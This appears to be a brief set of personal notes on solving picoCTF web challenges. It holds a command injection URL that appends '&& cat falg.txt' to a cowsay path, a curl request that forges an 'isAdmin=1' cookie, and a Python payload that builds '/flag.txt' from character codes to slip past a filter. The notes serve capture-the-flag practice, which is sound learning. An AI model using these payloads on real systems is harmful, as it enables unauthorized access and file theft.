 - 1) view page source
 
 ------------------------------------------------------------------------------

- curl -I http://shape-facility.picoctf.net:62930/ > check "Server"

- open(chr(47)+"f"+"l"+"a"+"g"+chr(46)+"t"+"x"+"t").read()

- ascii table
- . = 46
- / = 47

-------------------------------------------------------------------------------

curl http://saturn.picoctf.net:50500/check.php --cookie "isAdmin=1"

-------------------------------------------------------------------------------

- https://www.base64decode.org/

-------------------------------------------------------------------------------

- https://caas.mars.picoctf.net/cowsay/hackeddone && cat falg.txt
  
-------------------------------------------------------------------------------

